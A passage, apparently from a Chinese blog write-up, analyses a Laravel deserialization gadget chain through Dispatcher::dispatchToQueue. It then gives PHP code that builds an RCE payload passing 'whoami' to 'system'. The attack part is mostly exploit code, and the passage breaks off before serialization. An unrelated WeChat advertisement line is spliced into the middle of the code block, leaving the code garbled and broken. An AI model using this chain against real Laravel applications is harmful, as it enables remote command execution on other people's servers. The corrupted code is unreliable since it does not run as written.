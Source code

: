 ![图片](img/b443f962ba476abc21c653ef906970fd.png)

满足ShouldQueue接口的实现类即可，再跟踪进dispatchToQueue看一下public function dispatchToQueue($command)

```
{
        $connection = $command->connection ?? null;

        $queue = call_user_func($this->queueResolver, $connection);
```

这里的$this->queueResolver和$connection都是可控的，到这里就可以直接构造payload

### rce

```
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($events, $event) {
            $this->events = $events;
            $this->event = $event;
        }
    }
    class BroadcastEvent {
        public $connection;
        public function __construct($connection) {
            $this->connection = $connection;
        }
    }+WX：machinegunjoe免费领取资料
}
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver;
        public function __construct($queueResolver){
            $this->queueResolver = $queueResolver;
        }
    }
}
namespace {
    $c = new Illuminate\Broadcasting\BroadcastEvent('whoami');
    $b = new Illuminate\Bus\Dispatcher('system');
```